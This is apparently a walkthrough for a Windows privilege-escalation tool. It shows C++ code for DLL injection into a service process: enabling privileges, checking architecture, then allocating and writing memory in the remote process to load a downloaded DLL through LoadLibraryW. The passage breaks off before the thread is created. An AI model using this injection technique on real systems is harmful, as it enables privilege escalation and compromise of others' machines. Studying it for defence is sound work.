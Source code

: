 ```c++
        }
```
Part 1 - Setting things up:
-
 - We start by downloading the dll file from the elevationstation repo.  You could change this to a another location if you like.  I just made this as simple a process as I could 🐶
 - Next, we enable all our necessary privs.  I left SE_IMPERSONATE_NAME in there for good measure but it probably isn't needed. I can't remember...
 - After privs are enabled, we open a handle to the Process we want to use for injecting our DLL.  I'm going to use the AppleMobileDevice service for the purposes of this walkthrough

Part 2 - Checking Architecture
-
- Now, we need to ensure the process is the same architecture as our DLL **AND** our elevationstation binary

```c++
 BOOL bIsWow64 = FALSE;
        if (!IsWow64Process(processHandle, &bIsWow64)) //execute the API
        {
            printf("There was an issue executing the api against this PID...Error Code: %i\n", GetLastError());
            exit(0);
        }

        //printf("%s", bIsWow64 ? "true" : "false");

        if (!bIsWow64)
        {
            printf("[+] PID %d is 64-bit!\n", pid);

        }
        else
        {
            printf("[!] PID %d is 64-bit and won't work with this program...\n", pid);
            exit(0);

        }
```
Part 3 - Allocate & Write Memory, and Create our remote thread!
-
- Now, we need to use our open handle to the remote process and allocate/write our dll into memory and then create the remote thread to execute it at the location we setup in memory within the process!

```c++
printf("[+] Allocating memory in remote process...\n");
        remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);
        if (!remoteBuffer)
        {
            printf("[!] Couldn't allocate memory: %d\n", GetLastError());
            exit(0);
        }
        printf("[+] Writing memory to remote process...\n");
        if (!WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL))
        {
            printf("[!] couldn't write memory...Error Code: %d\n", GetLastError());
            exit(0);
        }
        printf("[+] Creating remote thread...\n");
        PTHREAD_START_ROUTINE threadStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
```